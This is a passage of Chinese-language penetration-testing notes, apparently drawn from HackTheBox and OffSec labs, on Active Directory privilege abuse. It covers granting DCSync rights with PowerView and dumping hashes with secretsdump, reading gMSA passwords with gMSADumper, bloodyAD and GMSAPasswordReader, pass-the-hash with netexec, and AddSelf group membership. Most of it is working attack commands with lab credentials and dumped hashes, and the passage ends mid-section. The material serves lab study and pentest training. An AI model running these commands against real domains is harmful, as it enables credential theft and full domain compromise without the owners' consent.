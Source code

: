 
- ### DCSync 滥用
```powershell
. .\PowerView.ps1
$pass =convertTo-securestring 'xekOnerR!' -asplaintext -force
$cred = new-object system.management.automation.pscredential('htb.local\xek',$pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity xek -Rights DCSync
```
然后使用 secretsdump.py 转储 hash 值

**如果有凭据可以直接执行 DCSync**
```bash
python ~/tool/impacket-dacledit/examples/secretsdump.py -dc-ip 10.129.96.90 HTB.LOCAL/mrlky:'Football#7'@HTB.LOCAL
```


- ### ReadGMSAPassword 滥用
```bash
python3 gMSADumper.py -u <USERNAME> -p <PASSWORD> -d <DOMAIN>

Users or groups who can read password for BIR-ADFS-GMSA$:                                                
 > ITSec                                                                                                 
BIR-ADFS-GMSA$:::e1e9fd9e46d0d747e1595167eedcec0f                                                        
BIR-ADFS-GMSA$:aes256-cts-hmac-sha1-96:06e03fa99d7a99ee1e58d795dccc7065a08fe7629441e57ce463be2bc51acf38
BIR-ADFS-GMSA$:aes128-cts-hmac-sha1-96:dc4a4346f54c0df29313ff8a21151a42
```
`:e1e9fd9e46d0d747e1595167eedcec0f` 就是 hash

如果无法登录 winrm，则可以尝试：**bloodyAD**
```bash
bloodyAD -d rebound.htb -u tbrady -p 543BOMBOMBUNmanda --host dc01.rebound.htb get object 'delegator$' --attr msDS-ManagedPassword
```

已拥有 PS Session 攻击
https://github.com/rvazarkar/GMSAPasswordReader
```powershell
.\RunasCs.exe tbrady 543BOMBOMBUNmanda -l 2 "\programdata\GMSAPasswordReader.exe --accountname delegator$"
.\GMSAPasswordReader.exe --accountname 'svc_apache'
```
rc4_hmac 就是等同于 HTLM Hash
```bash
netexec smb 192.168.218.165 -u svc_apache$ -H 023145FC00CE8BAB62704EB63AB7BDAB
...
SMB         192.168.218.165 445    DC01             [+] heist.offsec\svc_apache$:023145FC00CE8BAB62704EB63AB7BDAB
```


### Self (Self-Membership) on Group  (AddSelf)
使用了 powerview 脚本，或者是 **powerview 远程执行脚本**。
- 验证
```bash
Get-DomainObjectAcl -Indentity ServiceMGMT
```
`ActiveDirectoryRights       : Self`
- 滥用
```bash
Add-DomainGroupMember -Identity servicemgmt -Members oorend      (Powerview)

python3 ./bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb  (Linux)
```
- 滥用后验证